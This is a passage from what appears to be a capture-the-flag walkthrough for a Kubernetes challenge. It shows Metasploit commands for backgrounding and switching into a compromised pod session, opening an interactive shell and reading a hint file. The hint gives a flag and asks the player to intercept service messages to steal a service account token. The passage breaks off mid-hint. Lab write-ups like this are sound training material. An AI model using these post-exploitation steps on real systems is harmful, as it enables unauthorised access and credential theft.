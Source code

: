 90. Now, tell the Metasploit console that you'd like to background the session:

    ```shell
    background
    ```

91. Get a list of sesssions:

    ```shell
    sessions -l
    ```

92. Switch to the new session:

    ```shell
    sessions -i 2
    ```

93. Start a shell:

    ```shell
    shell
    ```

94. Run `bash -i` to make it more friendly.

    ```shell
    bash -i
    ```

95. Now we are in a pod called "whats-the-password-rce".  List the current directory:

    ```shell
    ls
    ```

96. Read the hint.

    ```shell
    cat HINT.txt
    ```

97. The hint says this:

    ```
    Go get your flag: flag-phreaks-payphone-trick.

    From here, there are multiple serial challenges that won't 
    give you a new pod yet.

    Flag challenge 1:

    Razor reaches Blade by way of a service.  Can you intercept
    the messages? There's a flag and a service account token in 
    these.

    Note: the service account token isn't Razor's or Blade's token.


    Flag challenge 2:
